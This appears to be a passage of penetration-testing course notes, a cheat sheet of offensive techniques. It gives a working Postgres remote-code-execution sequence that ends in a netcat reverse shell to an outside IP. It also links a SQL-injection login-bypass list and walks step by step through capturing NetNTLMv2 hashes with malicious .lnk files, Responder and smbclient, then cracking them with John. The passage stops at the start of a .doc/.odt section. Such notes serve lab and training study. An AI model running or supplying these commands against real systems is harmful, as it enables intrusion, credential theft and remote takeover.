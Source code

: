 ### Postgres RCE

```jsx
psql -h 240.0.0.1 -p 5432 -U postgres -d webapp

DROP TABLE IF EXISTS cmd_exec;
CREATE TABLE cmd_exec(cmd_output text);
COPY cmd_exec FROM PROGRAM 'id';
SELECT * FROM cmd_exec;
DROP TABLE IF EXISTS cmd_exec;

# Reverse shell
COPY cmd_exec FROM PROGRAM 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.45.160 443 >/tmp/f';
```

### Bypass auth

[SecLists/Fuzzing/Databases/MySQL-SQLi-Login-Bypass.fuzzdb.txt at master · danielmiessler/SecLists](https://github.com/danielmiessler/SecLists/blob/master/Fuzzing/Databases/MySQL-SQLi-Login-Bypass.fuzzdb.txt?source=post_page-----7e777892e485--------------------------------)

# Client-side attack

### Webdav - Email - Library-ms

We can try to use the reverse shell as in Client-Side attacks in the course: [mkdir /home/kali/webdav
touch /home/kali/webdav/test.txt
/home/kali/.local/bin/wsgidav --host=0.0.0.0 --port=80 --auth=anonymous --root /home/kali/Desktop/webdav/](https://www.notion.so/mkdir-home-kali-webdav-touch-home-kali-webdav-test-txt-home-kali-local-bin-wsgidav-host-0-0-0--259879d4893145ad979a04afccf7a7c7?pvs=21) (There is also swaks usage to put as email)

### .lnk

Grab NetNTLMv2 hash with responder with ‘hashgrab.py’ (in /Desktop/share/ClientSide)

```jsx
python hashgrab.py 192.168.45.207 test   # run hashgrab and create payloads 
sudo responder -I tun0 -v                # run responder in another terminal
smbclient //192.168.181.30/nara          # connect to the smb share
cd Documents                             # go to the correct folder
put test.ln                              # upload the test.lnk created by hashgrab.py

# put the hash in hash file and crack
john hash -wordlist=/usr/share/wordlists/rockyou.txt
```

### .doc / .odt

Grab NetNTLMv2 hash with ‘badodt.py’ (in /Desktop/share/ClientSide):
